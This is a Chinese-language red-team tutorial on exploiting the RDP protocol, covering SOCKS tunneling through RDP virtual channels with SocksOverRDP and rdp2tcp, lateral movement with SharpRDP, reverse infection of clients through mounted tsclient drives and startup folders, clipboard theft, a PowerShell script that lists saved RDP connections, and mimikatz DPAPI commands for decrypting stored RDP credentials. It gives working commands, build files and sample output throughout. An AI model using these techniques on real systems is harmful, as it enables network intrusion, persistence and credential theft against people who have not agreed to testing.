




# [](#%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E4%B8%AD-rdp-%E5%8D%8F%E8%AE%AE%E7%9A%84%E5%88%A9%E7%94%A8)红蓝对抗中 RDP 协议的利用

## [](#1-socksoverrdp)1 SocksOverRDP

### [](#11-%E5%B7%A5%E5%85%B7%E4%BB%8B%E7%BB%8D)1.1 工具介绍

当防火墙规则配置为：只有 tcp/udp 3389 端口可以进行通信时，可以利用 RDP 协议，建立 Socks 通道。应用场景较为极端。


工具地址：[https://github.com/nccgroup/SocksOverRDP](https://github.com/nccgroup/SocksOverRDP)

此工具在 RDP 协议的基础上实现了 Socks 代理功能。 就像 SSH 的 `-D` 参数一样，在连接后，利用 RDP 协议实现代理功能。

该工具包含两个部分：

-   `.dll`，需要在客户端上进行注册，并在每次运行时将其加载到远程桌面客户端的上下文运行环境中。
-   `.exe`，它是服务端组件，需要复制到服务器并执行。无需安装，无需配置。

在远程桌面连接的服务器端执行 .exe 时，它会通过动态虚拟通道（RDP 协议的特性）连接回客户端，并在客户端启动 SOCKS 代理。该代理默认情况下侦听 `127.0.0.1:1080`，可以在浏览器或工具中将其配置为代理。

信息

服务器上的程序不需要服务器端的任何特殊特权，还允许低特权用户打开虚拟通道并通过连接进行代理。

### [](#12-%E5%B7%A5%E5%85%B7%E6%B5%8B%E8%AF%95)1.2 工具测试

#### [](#121-%E5%AE%A2%E6%88%B7%E7%AB%AF)1.2.1 客户端

`.dll` 需要放置在客户端计算机上的任何目录中，为了方便使用，可以该文件复制到 `％SYSROOT％\system32\` 或 `％SYSROOT％\SysWoW64\` 环境变量下。

使用以下命令进行安装注册该 DLL：

`regsvr32.exe SocksOverRDP-Plugin.dll`

取消注册：

`regsvr32.exe /u SocksOverRDP-Plugin.dll`

在 RDP Client 中启动 `mstsc.exe` 时可以看到如下提示：


#### [](#122-%E6%9C%8D%E5%8A%A1%E7%AB%AF)1.2.2 服务端

直接执行：`SocksOverRDP-Server.exe` 即可

## [](#2-rdp-to-tcp)2 RDP to TCP

使用场景仍然是：由于防火墙的设置，只能连接一台 Windows 服务器的远程桌面，那么如何以这台 Windows 服务器为跳板进入内网

### [](#21-%E5%B7%A5%E5%85%B7%E4%BB%8B%E7%BB%8D)2.1 工具介绍

工具地址：[https://github.com/V-E-O/rdp2tcp](https://github.com/V-E-O/rdp2tcp)

工具原理：使用 RDP 虚拟通道功能来复用端口

可用的功能：

-   正向 TCP 端口转发
-   反向 TCP 端口转发
-   处理标准输入/输出转发
-   SOCKS5 代理

### [](#22-%E5%B7%A5%E5%85%B7%E6%B5%8B%E8%AF%95)2.2 工具测试

#### [](#221-%E4%B8%8B%E8%BD%BD%E5%B9%B6%E7%BC%96%E8%AF%91rdp2tcp)2.2.1 下载并编译rdp2tcp

-   安装 mingw-w64
    -   `apt-get install mingw-w64`
-   下载 rdp2tcp
    -   `git clone https://github.com/V-E-O/rdp2tcp.git`
-   修改配置文件
    -   rdp2tcp 默认不支持编译 64 位的 exe，所以这里需要修改配置文件，增加编译 64 位 exe 的配置信息
    -   修改文件`Makefile`，新的内容如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>``` | ```makefile<br>all: client server-mingw64<br><br>client: client/rdp2tcp<br>client/rdp2tcp:<br>	make -C client<br><br>#server-mingw32: server/rdp2tcp.exe<br>#server/rdp2tcp.exe:<br>#	make -C server -f Makefile.mingw32<br><br>server-mingw64: server/rdp2tcp64.exe<br>server/rdp2tcp64.exe:<br>	make -C server -f Makefile.mingw64<br><br>clean:<br>	make -C client clean<br>#	make -C server -f Makefile.mingw32 clean<br>	make -C server -f Makefile.mingw64 clean<br>	make -C tools clean<br>``` |

新建文件 `/server/Makefile.mingw64`，内容如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>``` | ```makefile<br>BIN=rdp2tcp64.exe<br>CC=i686-w64-mingw32-gcc<br>CFLAGS=-Wall -g \<br>		 -D_WIN32_WINNT=0x0501 \<br>		 -I../common<br><br># -D_WIN32_WINNT=0x0501<br># -D_WIN32_WINNT=0x0501 -DDEBUG<br><br>LDFLAGS=-lwtsapi32 -lws2_32<br>OBJS=	../common/iobuf.o \<br>	../common/print.o \<br>	../common/msgparser.o \<br>	../common/nethelper.o \<br>	../common/netaddr.o \<br>	errors.o aio.o events.o \<br>	tunnel.o channel.o process.o commands.o main.o<br><br>all: clean_common $(BIN)<br><br>clean_common:<br>	$(MAKE) -C ../common clean<br><br>$(BIN): $(OBJS)<br>	$(CC) -o $@ $(OBJS) $(LDFLAGS) <br><br>%.o: %.c<br>	$(CC) $(CFLAGS) -o $@ -c $<<br><br>clean:<br>	rm -f $(OBJS) $(BIN)<br>``` |

-   编译
    -   `make`

#### [](#222-%E4%BD%BF%E7%94%A8-xfreerdp-%E8%BF%9E%E6%8E%A5%E8%BF%9C%E7%A8%8B%E6%A1%8C%E9%9D%A2%E5%B9%B6%E5%BB%BA%E7%AB%8B%E9%80%9A%E9%81%93)2.2.2 使用 xfreerdp 连接远程桌面并建立通道

-   执行 xfreerdp 并开启 TCP 重定向功能
    -   `/opt/freerdp-nightly/bin/xfreerdp /v:IP:3389 /u:user /p:passwd /cert-ignore /rdp2tcp:/root/rdp2tcp/client/rdp2tcp`
-   将 rdp2tcp64.exe 上传至 RDP Server 并执行(不需要管理员权限)
-   在客户端系统上启动 rdp2tcp.py
    -   `cd rdp2tcp/tools`
    -   `python rdp2tcp.py`
-   添加正向端口转发(本地 445 -> 192.168.112.129:445)的命令如下：
    -   `python rdp2tcp.py add forward 127.0.0.1 445 192.168.112.129 445`

## [](#3-%E5%88%A9%E7%94%A8-rdp-%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8)3 利用 RDP 横向移动

### [](#31-%E6%B5%8B%E8%AF%95)3.1 测试

本节介绍的是如何在不通过 GUI 客户端和 Socks 代理的情况下，基于 RDP 协议进行横向移动。

Windows 下 mstscax.dll 库可以执行任何 RDP 功能，此 DLL 是 Microsoft 终端服务的 ActiveX COM 库。通过利用此 DLL，测试人员可以创建控制台应用程序，该控制台应用程序通过 RDP 执行经过身份验证的远程命令执行，而无需 GUI 客户端或 SOCKS 代理。

-   在 Cobalt Strike 中执行：



-   直接执行命令：

`SharpRDP.exe computername=dc01 command=calc username=offense\administrator password=123456`

有两种身份验证方法，一种是提供纯文本凭据（如上），另一种是使用受限管理模式的当前用户上下文。受限管理模式是一种 Windows 保护机制，它要求执行网络类型登录而不是交互式登录，即 PTH。

### [](#32-%E5%9C%BA%E6%99%AF)3.2 场景

有时在某些情况下，RDP 是执行横向移动技术的首选方法，但使用传统的 RDP 客户端 GUI 可能很困难。因此，可以使用上述方法，将命令执行过程隐藏在 RDP 协议中。

其次，可以在没有系统本地管理特权但对系统拥有 RDP 权限的情况下利用 RDP 进行横向移动，可以利用 BloodHound 进行信息收集。


## [](#4-rdp-%E6%8C%82%E7%9B%98%E5%8F%8D%E6%89%93)4 RDP 挂盘反打

利用 挂盘监控 + 注入启动项 进行攻击

### [](#41-%E5%8E%9F%E7%90%86)4.1 原理

tsclient 是通过远程桌面连接到远程计算机时，在远程计算机「网上邻居」中出现的一个机器名，实际为远程计算机分配给本机的名称。

通过 `\\tsclient\盘符` 可以在远程计算机上访问本机。其访问方式类似于使用 smb 进行文件传输，虽然本质上都是 smb 协议，但是使用 tsclient 无需身份认证，因此可以直接将通过预制手段，使用 tsclient 反向感染。

### [](#42-%E5%88%A9%E7%94%A8)4.2 利用

通常情况下，tsclient 的利用思路较为简单，通过文件传输将恶意程序脚本写入用户的启动（startup）文件夹，当机器重启时，就会执行恶意程序脚本。

工具：[https://github.com/mdsecactivebreach/RDPInception/](https://github.com/mdsecactivebreach/RDPInception/)

### [](#43-%E9%99%90%E5%88%B6%E6%9D%A1%E4%BB%B6)4.3 限制条件

1.  mstsc 需要开启驱动器 C 盘，但是默认情况下 mstsc 是不开启磁盘共享功能的。必须要手工开启，如图所示：



2.  当开启 RDP 远程访问时，只有远程登录的用户可以访问 tsclient。其他用户无法访问，包括使用 runas 也无法访问。

虽然限制条件较多，但在实际环境中，很多运维人员为了方便操作，通常会挂载磁盘，因此这一方法并非全然无用，需要根据实际情况判断。猥琐一些的思路：在脚本找不到挂载磁盘的情况下，直接结束 rdpclip.exe 使管理员无法使用剪切板功能，迫使管理员在不清楚原因的状况下，直接重新挂载上磁盘操作。

最后，不同于 smb 上传文件后使用计划任务启动，由于不知道被感染的机器用户身份，因此只能依托于启动项开机自启动。因此，该攻击方式对服务器攻击效果较弱。

## [](#5-%E5%89%AA%E5%88%87%E6%9D%BF%E5%88%A9%E7%94%A8%E6%96%B9%E6%B3%95)5 剪切板利用方法

除了利用文件传输以外，其实还可以尝试利用剪切板劫持的方法进行反向攻击。

### [](#51-%E5%89%AA%E5%88%87%E6%9D%BF%E7%AA%83%E5%8F%96)5.1 剪切板窃取

#### [](#511-%E5%8E%9F%E7%90%86)5.1.1 原理

在使用 mstsc 进行远程桌面的时候，会启动一个叫 rdpclip.exe 的进程，该进程的功能是同步服务端与客户端的剪贴板。


而这个进程是一个十分有用的进程，如上文提到的，如果直接结束该进程，那么在服务端(远程机器)上将某些数据拷贝到客户端（本地机器）上时，就会发现剪贴板失效，无法复制。

由于启动该进程时，会自动同步剪切板内容，因此当目标目标机器与其他机器使用 mstsc 建立 RDP 远程连接时，就可以通过读取 rdplicp.exe 进程数据，进行剪贴板窃取，以尽可能地获取更多的信息。

此外，由于该进程是后台运行的，当管理员同时用远程桌面登陆多个服务器，在其中的某一个服务器上进行复制拷贝操作时，会将数据同步到所有服务器的 rdplicp.exe 进程。

#### [](#512-%E5%88%A9%E7%94%A8)5.1.2 利用

在 empire 中有一个 Get-ClipboardContents.ps1，可以用 empire 或者 coablt strike 加载该脚本。或者也可以自己编写相关脚本使用。是一个相对简单的工具。

但是需要注意的是，与 tsclient 类似，同计算机的不同用户之间是无法读取的，每一个用户的 rdplicp.exe 是独立启动的。

### [](#52-%E5%89%AA%E5%88%87%E6%9D%BF%E4%BC%A0%E8%BE%93%E6%81%B6%E6%84%8F%E6%96%87%E4%BB%B6)5.2 剪切板传输恶意文件

当我们用mstsc登陆了一台服务器后，在该服务器上按下复制操作时，会产生一系列操作。


#### [](#521-%E5%8E%9F%E7%90%86)5.2.1 原理

在远程桌面时，使用剪切板传输一个文件的流程如下：

1、在服务器上，“复制"操作会创建格式为 “CF\_HDROP” 的剪贴板数据

2、在客户端计算机中执行「粘贴」时，将触发一系列事件

3、要求服务器上的 rdpclip.exe 进程提供剪贴板的内容，并将其转换为 FileGroupDescriptor(Fgd) 剪贴板格式

4、使用 HdropToFgdConverter::AddItemToFgd() 函数，将文件的元数据添加到描述符中

5、完成后，将 Fgd Blob 发送到服务器上的 RDP 服务

6、服务器只是将其包装并将其发送给客户端

7、客户端将其解包并将其存储在自己的剪贴板中

8、「粘贴」事件将发送到当前窗口（例如，explorer.exe）

9、处理事件并从剪贴板读取数据

10、通过 RDP 连接接收文件的内容

#### [](#522-%E5%88%A9%E7%94%A8)5.2.2 利用

-   [https://github.com/qianshuidewajueji/CVE-2019-0887](https://github.com/qianshuidewajueji/CVE-2019-0887)
    
-   [https://github.com/0xedh/mstsc-path-traversal](https://github.com/0xedh/mstsc-path-traversal)
    

## [](#6-rdp-thief)6 RDP Thief

每次成功连接到远程主机时，RDP 客户端都会保存远程主机的名称（或IP地址）以及用于登陆的用户名。再次启动 mstsc.exe 时，可以直接从列表中选择远程 RDP 服务器的名称，并且客户端已自动填写用于登陆的用户名。

### [](#61-%E8%8E%B7%E5%8F%96%E8%BF%9E%E6%8E%A5%E5%8E%86%E5%8F%B2%E8%AE%B0%E5%BD%95)6.1 获取连接历史记录

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>``` | ```powershell<br><#<br>.SYNOPSIS<br>This script will list the logged-in users' RDP Connections History.<br>#><br>$AllUser = Get-WmiObject -Class Win32_UserAccount<br>foreach($User in $AllUser)<br>{<br>	$RegPath = "Registry::HKEY_USERS\"+$User.SID+"\Software\Microsoft\Terminal Server Client\Servers\"<br>	Write-Host "User:"$User.Name<br>	Write-Host "SID:"$User.SID<br>	Write-Host "Status:"$User.Status<br>	Try  <br>    	{ <br>		$QueryPath = dir $RegPath -Name -ErrorAction Stop<br>	}<br>	Catch<br>	{<br>		Write-Host "No RDP Connections History"<br>		Write-Host "----------------------------------"<br>		continue<br>	}<br>	foreach($Name in $QueryPath)<br>	{   <br>		Try  <br>    		{  <br>    			$User = (Get-ItemProperty -Path $RegPath$Name -ErrorAction Stop).UsernameHint<br>    			Write-Host "User:"$User<br>    			Write-Host "Server:"$Name<br>    		}<br>    		Catch  <br>    		{<br>			Write-Host "No RDP Connections History"<br>    		}<br>	}<br>	Write-Host "----------------------------------"	<br>}<br>``` |



### [](#62-%E7%A0%B4%E8%A7%A3-rdp-%E8%BF%9E%E6%8E%A5%E5%87%AD%E8%AF%81)6.2 破解 RDP 连接凭证

破解 RDP 连接凭证的前提是用户在连接远程主机时勾选了保存保存凭证。

-   查找本地的 Credentials
    -   `dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*`



-   使用 mimikatz 进行操作
    -   `mimikatz dpapi::cred /in:C:\Users\by\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D`

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>``` | ```fallback<br>**BLOB**<br>  dwVersion          : 00000001 - 1<br>  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}<br>  dwMasterKeyVersion : 00000001 - 1<br>  guidMasterKey      : {ffc994a1-de8d-4304-9416-31e587f7a8ca}<br>  dwFlags            : 20000000 - 536870912 (system ; )<br>  dwDescriptionLen   : 00000030 - 48<br>  szDescription      : Local Credential Data<br><br>  algCrypt           : 00006610 - 26128 (CALG_AES_256)<br>  dwAlgCryptLen      : 00000100 - 256<br>  dwSaltLen          : 00000020 - 32<br>  pbSalt             : 00fed8ca7ec6d44585dd1fbd8b57e77b6ab0cf318ec5d52d09fd0694ffb89ccb<br>  dwHmacKeyLen       : 00000000 - 0<br>  pbHmackKey         :<br>  algHash            : 0000800e - 32782 (CALG_SHA_512)<br>  dwAlgHashLen       : 00000200 - 512<br>  dwHmac2KeyLen      : 00000020 - 32<br>  pbHmack2Key        : b49ef55f909fa503eda37ddc797c83c99df983920bfb4628e07aac5cb32bb530<br>  dwDataLen          : 000000b0 - 176<br>  pbData             : 4083f8f501b999a35c4aa57ce732bf52d30a6e604dac5a91b6fd3e65660c52a536025c5126f0d12b85044498deef08a8688b3459f49514ed6ae46271a1cb4cd0e70845d9b6beccbcbe85dead0fb7c80b4f7810add87b75c48592fcbfbbfd94fa4eee8004f8cf6d9619ef4b9af643f4c9ef0e8a2a5b0cd00530a5638cfd114fee4b735ac12eef2c7e6a0364845eb0ee4b3ab121e33324f8d5af48f3422bd47a76ab5e9e9e5a1a383e22fff8bf851b6a2a<br>  dwSignLen          : 00000040 - 64<br>  pbSign             : 7c8dbe7991c6af4d3bfc9f808790a0904738d0ca227bc2ee20ee26cbf06487dd2679e932b27ea0c0cbbe590ee6430641605d7001b2158c8873c5d6a09a9855a8<br>``` |

接下来需要使用的就是 guidMasterKey、pbData 数据。pbData 是凭据的加密数据，guidMasterKey 是凭据的 GUID

-   使用 `sekurlsa::dpapi`


根据目标凭据 `GUID:{ffc994a1-de8d-4304-9416-31e587f7a8ca}`找到其关联的 MasterKey，这个 `MasterKey` 就是加密凭据的密钥，即解密 `pbData` 所必须的东西。

-   解密
    -   `dpapi::cred /in:C:\Users\by\AppData\Local\Microsoft\Credentials\AB07963F1A0A1CB56827E93395597FC6 /masterkey:e01320a53bf9d57da1163c7723a5b3901df5a3fc8e504fc021def2637d19d34c0084a3ac2a0daab3fb9af3f98c48a9a901627dc4b10db087cb357e1d2f8aa18c`


参考：

-   [https://research.nccgroup.com/2020/05/06/tool-release-socks-over-rdp/](https://research.nccgroup.com/2020/05/06/tool-release-socks-over-rdp/)
    
-   [https://3gstudent.github.io/3gstudent.github.io/渗透技巧-使用远程桌面协议建立通道/](https://3gstudent.github.io/3gstudent.github.io/%e6%b8%97%e9%80%8f%e6%8a%80%e5%b7%a7-%e4%bd%bf%e7%94%a8%e8%bf%9c%e7%a8%8b%e6%a1%8c%e9%9d%a2%e5%8d%8f%e8%ae%ae%e5%bb%ba%e7%ab%8b%e9%80%9a%e9%81%93/)
    
-   [https://posts.specterops.io/revisiting-remote-desktop-lateral-movement-8fb905cb46c3](https://posts.specterops.io/revisiting-remote-desktop-lateral-movement-8fb905cb46c3)
    
-   [https://github.com/0xthirteen/SharpRDP](https://github.com/0xthirteen/SharpRDP)
    
-   [利用 mstsc 反向攻击思路整理](https://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247492759&idx=1&sn=f6283f0eaa9104f61436a4e15552f2ba&scene=21#wechat_redirect)
    
-   [https://research.checkpoint.com/reverse-rdp-attack-code-execution-on-rdp-clients/](https://research.checkpoint.com/reverse-rdp-attack-code-execution-on-rdp-clients/)
    
-   [https://paper.seebug.org/1074/](https://paper.seebug.org/1074/)
